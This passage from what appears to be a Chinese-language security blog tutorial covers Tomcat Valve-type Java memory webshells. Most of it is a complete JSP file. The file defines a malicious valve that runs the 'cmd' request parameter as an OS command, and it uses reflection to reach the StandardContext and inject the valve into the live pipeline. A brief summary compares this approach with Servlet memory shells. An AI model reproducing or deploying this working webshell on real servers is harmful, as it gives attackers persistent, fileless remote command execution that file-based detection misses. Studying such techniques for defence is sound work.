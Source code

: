 ![img](https://drun1baby.top/2022/09/07/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-06-Tomcat-%E4%B9%8B-Valve-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/SuccessValveShell.png)

JSP 版本的代码如下

JAVA

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>  
<%@ page import="org.apache.catalina.core.ApplicationContext" %>  
<%@ page import="org.apache.catalina.core.StandardContext" %>  
<%@ page import="javax.servlet.*" %>  
<%@ page import="javax.servlet.annotation.WebServlet" %>  
<%@ page import="javax.servlet.http.HttpServlet" %>  
<%@ page import="javax.servlet.http.HttpServletRequest" %>  
<%@ page import="javax.servlet.http.HttpServletResponse" %>  
<%@ page import="java.io.IOException" %>  
<%@ page import="java.lang.reflect.Field" %>  
<%@ page import="org.apache.catalina.Wrapper" %>  
<%@ page import="org.apache.catalina.connector.Request" %>  
<%@ page import="org.apache.catalina.valves.ValveBase" %>  
<%@ page import="org.apache.catalina.connector.Response" %>  
  
<%  
 class EvilValve extends ValveBase {  
  
 @Override  
 public void invoke(Request request, Response response) throws IOException, ServletException {  
 System.out.println("111");  
 try {  
 Runtime.getRuntime().exec(request.getParameter("cmd"));  
 } catch (Exception e) {  
  
 } } }%>  
  
<%  
 // 更简单的方法 获取StandardContext  
 Field reqF = request.getClass().getDeclaredField("request");  
 reqF.setAccessible(true);  
 Request req = (Request) reqF.get(request);  
 StandardContext standardContext = (StandardContext) req.getContext();  
  
 standardContext.getPipeline().addValve(new EvilValve());  
  
 out.println("inject success");  
%>
```

## 0x05 小结

总结一下 Valve 型内存马，感觉在学会 Servlet 内存马之后，看 Valve 内存马就和喝汤一样容易，建议师傅们也尝试手写一下 EXP。

总而言之，Valve 型内存马是基于 Servlet 内存马来实现的，但是在表现形式上面会稍微有一点区别，之前 Servlet 内存马，我们是写入了一个路径，但是 Valve 型内存马可以在 Servlet 被读取的过程中就直接被恶意触发。
